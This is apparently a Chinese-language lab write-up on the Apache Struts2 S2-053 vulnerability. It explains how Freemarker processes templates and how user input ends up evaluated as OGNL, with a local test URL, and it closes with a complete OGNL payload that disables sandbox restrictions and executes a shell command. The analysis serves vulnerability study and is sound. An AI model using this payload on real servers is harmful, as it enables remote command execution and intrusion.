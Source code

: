 ### S2-053

![s2-053-result](../imgs/s2-053-result.png)  

Struts2 在使用 Freemarker 模板引擎的时候，同时允许解析 OGNL 表达式。导致用户输入的数据本身不会被 OGNL 解析，但由于被 Freemarker 解析一次后变成离开一个表达式，被 OGNL 解析第二次，导致任意命令执行漏洞。  
http://localhost:9053/hello.action

* Freemarker 工作原理  
  
  ![](https://img-blog.csdn.net/20180809213845347?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMzODE5NzY0/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)  

  原理简述
  - 准备模板文件(后缀为.fld)
  - 将数据填充进模板
  - 输出最终页面文件
  
  具体过程
  - 创建一个 Configuration 对象
  - 设置模板文件所在路径
  - 设置模板文件所使用的字符集
  - 根据路径加载模板文件，创建模板对象
  - 创建数据集对象，并向对象填充数据
  - 创建输出流对象 Writer（此步骤是设置输出的文件所在的路径及其名字）
  - 调用模板对象的process方法输出（生成）HTML文件或其他文件
  - 关闭流对象


* 漏洞分析  
  
  参考 [s2-053 源码分析](https://zhuanlan.zhihu.com/p/146166297)  

  (👇) 该方法首先获取模版的绝对路径，再通过 configuration.getTemplate 获取模版的信息，然后调用 template.process(model, writer) 开始解析模版  

  ![s2-053-01](https://pic3.zhimg.com/80/v2-4203979ae2ce8ba10d2fed50eb15bb1e_720w.webp)  

  (👇) 经过一系列的函数调用后（有些复杂），在一个 visit 方法中，调用传进去的 `element.accept` 方法遍历 nestedElements 中元素进行解析，nestedElements 的内容如下:  
  
  ![s2-053-02](https://pic3.zhimg.com/80/v2-4e024b73be574034956442d4363bfff2_720w.webp)  

  ![s2-053-03](https://pic3.zhimg.com/80/v2-58ee5b629f4a2e4b83a31aad495ed4e6_720w.webp)  

  ![s2-053-04](https://pic3.zhimg.com/80/v2-e264a755c26becb110fa63a4050f10c2_720w.webp)  

  (☝) 其中的 `${redirectUri}` 应该就是传入的参数，这里应该就是注入漏洞点  
  
  (👇) 看如何解析 `<@s.url value="${redirectUri}"></@s.url>`。调用 `UnifiedCall.accept` 方法  
  
  (👇) 该方法首先从 valueStack 获取到 redirect_url 的值,放入 args,然后开始解析这个值。  

  ![s2-053-05](https://pic2.zhimg.com/80/v2-d28ef4c8e6b61a06e641182158c80401_720w.webp)  

  (👇) 再经过一系列的复杂的调用，调用到了 `findValue` 方法。红框上面的判断语句首先判断是否支持 `altSyntax`。Syntax 功能是 Struts 2 框架用于处理标签内容的一种新语法（不同于普通的 HTML ），主要作用在于支持对标签中的 OGNL 表达式进行解析并执行。接着调用 TextParseUtil.translateVariables 方法。expr 就是我们的 payload。（这里是%{1+1}）  

  ![s2-053-06](https://pic2.zhimg.com/80/v2-b0402f7b1b2195b53268b4021087a3cd_720w.webp)  

  ![s2-053-07](https://pic1.zhimg.com/80/v2-ff20fa903468fe25a918ee1cd0903bd4_720w.webp)  

  ![s2-053-08](https://pic4.zhimg.com/80/v2-b6877d56a0fac03d3a12fed301f7fbe3_720w.webp)

  (☝) 再经过一系列的调用，会一直执行到 `parser.evaluate()` 方法。`parser.evaluate()` 的主要作用就是，对 payload 进行切割,保留 `%{}` 里面的值,然后再调用其他方法进行最终解析。  

  (👇) 最终，调用到了 `getValue()` 方法，执行了 ognl 表达式  
  
  ![s2-053-09](https://pic3.zhimg.com/80/v2-21e16827b3cb09171bb783a4d8e2e5f2_720w.webp)  

  ![s2-053-10](https://pic4.zhimg.com/80/v2-7327e05c44968708fdaabe18aa9ce8bb_720w.webp)



* payload

  ```
  %{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}

  ```